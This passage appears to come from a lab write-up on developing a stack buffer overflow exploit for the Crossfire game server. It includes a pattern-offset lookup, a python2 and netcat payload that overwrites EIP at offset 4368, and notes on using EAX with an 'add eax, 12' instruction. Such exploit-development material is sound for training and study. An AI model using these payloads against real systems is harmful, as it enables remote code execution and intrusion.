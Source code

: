 You can see that the EIP overwrite with 46367046, so running the following command find us the location of EIP.
```
└─$ msf-pattern_offset -l 4379 -q 46367046
[*] Exact match at offset 4368
```

so now run the following to make the crash again and see if the `B` was overwrite on the EIP with `\x42`, and adding pattern of `C` for make it 4379.
```bash
└─$ python2 -c 'print "\x11(setup sound " + "\x41"*4368+"\x42"*4+"\x43"*7 + "\x90\x00#"'| nc -nv 192.168.126.36 13327
(UNKNOWN) [192.168.126.36] 13327 (?) open
#version 1023 1027 Crossfire Server


```

On the EDB I can see that it work, the EIP was overwrite with `B`.
![bo-045.png](/assets/images/bo-045.png)
**Figure 45** Crossfire EIP overwrite again.

So now we can test and check if adding more pattern to the code will give us the same location of the EIP or it change, on my check it was change, if we follow the ESP it point to the last 7 `C` chars, but hte ECX are point back to out `A` but it look like we have little space because it follow the most end of the `A` location.

The EAX register however point to the start of the input that was inserted, but that contain the "setup sound" string which we didn't want to change. So thinking of that case we have several options, one of them is to add more 12 of space to the EAX, that should change the location of EAX, since the the string "setup sound " is 12 chars only.

Just think about it, if EAX is pointing to the memory location where the string "setup sound AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" is stored, and we add 12 to EAX, it would effectively move the pointer EAX forward by 12 bytes.

So if EAX initially points to the start of the string "setup sound AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA", adding 12 to EAX would make it point to the 13th character of the string. Therefore, after adding 12 to EAX, it would point to the letter 'A' that comes after "setup sound ".

```asm
add eax, 12
```
